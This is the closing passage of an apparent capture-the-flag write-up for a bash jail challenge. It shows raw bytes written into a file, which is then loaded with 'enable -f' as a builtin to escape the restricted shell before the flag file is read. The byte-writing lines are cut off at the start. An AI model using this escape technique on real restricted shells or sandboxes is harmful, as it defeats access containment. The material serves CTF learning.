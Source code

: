 ```bash
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x47\x00\x00\x00\x00\x00\x00\x00" >> a
<0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> a
bash-5.2# $ 
```

We can now use `enable` to escape the bash jail!

```bash
$ enable -f ./a escape
enable -f ./a escape
bash-5.2# $ escape
escape
$ ls
bin
etc
flag
home
jail
lib
lib64
opt
root
sbin
solitary
usr
var
$ cat flag
SCONES{s0rry_about_th3_war_cr1mes}
```

And there is the flag!

Flag: `SCONES{s0rry_about_th3_war_cr1mes}`


